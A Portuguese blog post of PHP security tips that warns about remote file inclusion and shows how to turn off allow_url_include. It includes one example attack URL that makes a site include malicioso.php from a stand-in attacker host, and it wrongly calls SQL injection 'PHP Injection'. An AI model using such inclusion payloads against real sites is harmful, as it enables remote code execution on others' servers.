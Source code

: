 ```yaml
---
layout: post
title: "Algumas dicas de segurança no PHP"
date: '2011-11-22T09:35:00.000-08:00'
description: "Algumas dicas de segurança no PHP"
main-class: 'misc'
tags:
- Web Hacker
- PHP
image: "http://2.bp.blogspot.com/-On3qcOCfgN8/TsvcEa2RPXI/AAAAAAAAAQg/OjkR8vGrhdY/s72-c/Hacker_Wallpaper_1280x1024_by_Pengo1.jpg"
twitter_text: "Algumas dicas de segurança no PHP"
introduction: "Algumas dicas de segurança no PHP"
---
```

![Blog Linux](http://2.bp.blogspot.com/-On3qcOCfgN8/TsvcEa2RPXI/AAAAAAAAAQg/OjkR8vGrhdY/s320/Hacker_Wallpaper_1280x1024_by_Pengo1.jpg "Blog Linux")
Se tem duas coisas que eu adoro em Tecnologia e Internet são: Velocidade e Segurança(principalmente).Vamos inciar projetos de segurança em códigos, sistemas, softwares...pois isso é mais do que importante.
No PHP um dos ataques que mais acontecem é via inclusão de url através do include via método GET, exemplo:
se vc tem um site:
{% highlight bash %}
http://www.seusite.com.br
{% endhighlight %} e no php.ini está habilitada a linha:{% highlight bash %}
allow_url_include=On
{% endhighlight %} , alguém pode chegar no seu site e fazer assim:{% highlight bash %}
http://www.seusite.com.br/?pagina=http://sitecracker.net/malicioso.php
{% endhighlight %} , dessa forma, vai saber o que tem dentro do arquivo malicioso.php e o que isso pode ser feito?Existem algumas formas de você se proteger a esse tipo de ataque(inclusive informar quais arquivos são permitidos pra inclusão no próprio PHP), um deles é desabilitar o allow_url_include do php.ini , ficando assim:{% highlight bash %}
allow_url_include=Off
{% endhighlight %} , para encontrar o php.ini no debian e derivados, o caminho é, como o usuário root:
{% highlight bash %}
# su
# gedit /etc/php5/apache2/php.ini
{% endhighlight %}
dê um Ctrl+F e procure allow_url_include , caso você não tenha acesso ao php.ini , tente setá-lo pelo código php com a função ini_set():
{% highlight bash %}
<?php
ini_set('allow_url_include', 'Off');
?>
{% endhighlight %}
mas teste antes pra verificar se realmente funcionou.
Outro tipo de ataque que todo mundo já deve conhecer é o SQL INjection, que na verdade é o PHP Injection, nunca consegui atacar por testes com esse método, mas se você deseja saber mais sobre esse tipo de ataque Clique Aqui - WikiPedia ou Aqui - Manual do PHP
Vou postar em próximas publicações mais a respeito deste assunto, porém caso você deseje instalar um utilitário para verificar as vulnerabilidades do seu código, eu recomendo o:
PHP Vulnerability Hunter
PHP Vulnerabiliry Hunter é uma avançada e automatizada ferramenta whitebox desenvolvida para testes de fuzz. Essa aplicação detectou quase todas as vulnerabilidades de aplicações web listadas nas principais páginas de alerta. PHP Vulnerability Hunter tem a capacidade de desencadear uma ampla gama de falhas exploráveis, ​​em aplicações Web PHP. A configuração mínima é necessária para iniciar um processo de scanning; PHP Vulnerability Hunter não precisa sequer de um usuário especificado para um starting URI .
Clique aqui para fazer o download do PHP Vulnerability Hunter
Valeu, até a próxima!
